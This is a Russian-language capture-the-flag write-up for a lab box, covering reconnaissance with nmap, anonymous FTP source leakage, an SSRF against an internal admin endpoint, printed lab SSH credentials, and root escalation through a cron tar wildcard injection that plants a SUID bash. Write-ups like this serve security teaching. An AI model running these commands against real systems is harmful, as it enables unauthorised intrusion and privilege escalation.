









# Write-up: Operation Coldstart 

## 1. Разведка

Начинаем со сканирования:

```bash
sudo nmap -sS -sV -sC -p- --min-rate=1000 10.144.184.88
```



FTP открыт — заходим анонимно:



Находим бэкап и в нём исходный код сайта `app.py`:



## 2. Анализ исходников и SSRF

В коде прямым текстом написана SSRF-уязвимость: запрашивать URL можно только из `ALLOWED_HOSTS`. Но там только `kestrel.thm`, который является доменом localhost (`127.0.0.1`):

```python
# Only requests targeting an approved internal hostname are forwarded.
# Internal hostname resolves to 127.0.0.1 via /etc/hosts on this box.
ALLOWED_HOSTS = {"kestrel.thm"}
```



Поскольку домен резолвится в `127.0.0.1`, мы можем запросить внутренний эндпоинт `/admin/notes` и получить записи администратора:

```text
/preview?url=http://kestrel.thm/admin/notes
```





Креды:

```text
user: webdev
pass: V0ltLabs#summer
```


Подключаемся по SSH и забираем `user.txt`:



## 3. PrivEsc: cron и tar wildcard

В `/etc/cron.d/voltlabs-backup` находим задание с уязвимым использованием `tar`:



Это классическая атака через wildcard в `tar`. Готовим эксплуатацию в `/opt/backups`:

```bash
echo '#!/bin/bash' > /opt/backups/exploit.sh
echo 'cp /bin/bash /tmp/rootbash && chmod +xs /tmp/rootbash' >> /opt/backups/exploit.sh
chmod +x /opt/backups/exploit.sh

touch /opt/backups/--checkpoint=1
touch /opt/backups/--checkpoint-action=exec=sh\ exploit.sh
```

Ждём срабатывания cron. После этого в `/tmp` появляется SUID-копия `bash`:

```bash
/tmp/rootbash -p
```

Получаем root:



## Итоговая схема (Kill Chain)

`Anonymous FTP (source leak)` → `SSRF (ALLOWED_HOSTS bypass → admin notes)` → `SSH creds` → `Cron tar wildcard → SUID bash → root`